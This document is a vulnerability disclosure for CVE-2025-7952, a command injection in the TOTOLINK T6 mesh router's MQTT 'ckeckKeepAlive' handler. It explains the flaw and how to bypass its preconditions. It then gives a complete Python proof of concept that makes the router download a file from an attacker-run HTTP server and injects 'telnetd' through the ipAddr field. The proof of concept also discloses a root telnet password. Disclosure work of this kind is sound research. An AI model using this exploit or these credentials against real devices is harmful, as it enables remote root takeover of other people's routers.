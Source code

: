 # [CVE-2025-7952](https://www.cve.org/CVERecord?id=CVE-2025-7952)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the MQTT packet handler function `ckeckKeepAlive` in file `wireless.so` .An attacker can implement a RCE attack by sending a malicious MQTT packet.

# Vulnerability details

Here is the code that handle request to MQTT packet `ckeckKeepAlive`. The `ipAddr` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](7/1.png)

![image-1](7/4.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](7/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](7/3.png)

However, to exploit the command injection, you must satisfy the conditions

- apmib_get call to get value at 0x46AB. This value must not be 0. This can be bypass by calling MQTT function `setWiFiMeshConfig`. For more information, see POC section
- File `/var/meshInfo.ini` must be exist. This can be bypass by setting up a http server and calling MQTT function `updateWifiInfo`. For more information, see POC section
- Param `macAddr` must have valid format. To bypass this, just use random Mac address (for example 3A:7C:F2:91:5E:B4) should work.

![image-3](7/5.png)

# POC

```python
import paho.mqtt.client as mqtt
import requests, time, sys, os
import socket
import http.server
import socketserver
import threading


# Define the handler to serve files or respond to requests
class MyHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        # Customize the GET request handling as needed
        super().do_GET()

# Start a server in a separate thread
def start_server(PORT = 80):
    Handler = MyHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    
    print(f"[*] Serving on port {PORT}")
    httpd.serve_forever()

def start_http_server():
    # Run server in a new thread
    server_thread = threading.Thread(target=start_server)
    server_thread.daemon = True  # Allow server to exit when main program exits
    server_thread.start()

    # Your program can continue running here without hanging
    print("[*] Server is running in the background...")
    
def set_0x46AB(client, value):
    mqtt_data = b'''
    {
        "effectType":"2",
        "masterMode":"%d"
    }
    ''' % value
    
    client.publish("totolink/router/setWiFiMeshConfig", mqtt_data)

def trigger_download_messInfo_ini(client, my_ip):
    mqtt_data = b'''
    {
        "serverIp":"%s",
        "newMd5":"1234"
    }
    ''' % my_ip.encode()
    
    client.publish("totolink/router/updateWifiInfo", mqtt_data)

def execute_command(client, cmd):
    mqtt_data = b'''
    {
        "ipAddr":";%s;",
        "macAddr":"3A:7C:F2:91:5E:B4"
    }
    ''' % cmd.encode()
    
    client.publish("totolink/router/ckeckKeepAlive", mqtt_data)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]
    
    client = mqtt.Client()
    client.connect(target_ip, 1883, 60)
    
    set_0x46AB(client, 1)
    print("[+] Set apmib 0x46AB Ok")
    
    time.sleep(3)
    
    start_http_server()
    print("[+] http server is running background")
    
    f = open("meshInfo.ini", "w")
    f.write("Pwned by Elvis!!!")
    f.close()
    
    trigger_download_messInfo_ini(client, my_ip)
    print("[+] Trigger download meshInfo.ini ok")
    
    for i in range(0, 10):
        time.sleep(1)
    
    execute_command(client, "telnetd;echo Pwned by Elvis!!! > /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    for i in range(0, 5):
        time.sleep(1)
```

[Video](https://www.youtube.com/watch?v=Wox7br4T3W8)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.